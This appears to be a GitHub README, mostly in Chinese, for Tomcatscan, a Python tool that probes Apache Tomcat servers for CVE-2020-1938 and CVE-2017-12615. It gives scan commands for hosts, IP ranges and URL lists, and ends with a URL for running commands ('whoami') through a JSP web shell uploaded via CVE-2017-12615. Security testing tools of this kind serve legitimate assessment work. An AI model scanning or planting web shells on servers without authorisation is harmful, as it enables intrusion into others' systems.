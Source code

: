 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测，同时会检测8009端口cve-2020-1938漏洞
https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png

python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1        ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938


cve-2017-12615 shell利用：访问并执行命令
https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
